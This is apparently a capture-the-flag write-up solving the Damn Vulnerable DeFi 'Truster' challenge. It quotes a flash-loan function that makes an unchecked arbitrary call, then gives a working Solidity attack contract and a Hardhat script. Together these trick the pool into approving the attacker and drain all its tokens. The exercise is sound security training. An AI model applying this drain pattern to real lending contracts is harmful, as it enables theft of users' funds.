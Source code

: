 ```yaml
---
title: Damn vulnerable defi challenge3 truster
date: 2023-02-24 19:57:52
tags:
  - solidity
  - damnvulnerabledefi
  - defi
  - CTFs
categories:
  - solidity
---
```


## overview

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

### how to get it started

1. git clone [github repo](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0)
2. yarn install
3. fill your code in \*.challenge.js
4. run your script via hardhat tools

## code bug

```javascript
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
    external
    nonReentrant
    returns (bool)
{
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    // here.
    target.functionCall(data);

    if (token.balanceOf(address(this)) < balanceBefore)
        revert RepayFailed();

    return true;
}
```

Target here means address of the DVT token that we deployed before.Thus we can use this call to approve amount to attacker address.Let\'s jump into code:

```javascript
function attack(TrusterLenderPool pool,DamnValuableToken _token) external {
    bytes memory data = abi.encodeWithSignature("approve(address,uint256)",address(this),type(uint256).max);
    pool.flashLoan(0,address(this),address(_token),data);
    _token.transferFrom(address(pool),msg.sender,_token.balanceOf(address(pool)));
}
```

Firstly, we need an abi string about the approve function.
Secondly,make a flash loan via pool address.
Finally,transfer all amount of pool DVT token to msg.sender(palyer).

### hardhat test script

```javascript
//deploy the attack contract
attack = await (
  await ethers.getContractFactory("TrusterAttack", player)
).deploy();
//invoke attack contract via player address.
await attack.connect(player).attack(pool.address, token.address);
```

- 1.deploy the attack contract
- 2.invoke attack contract via player address.
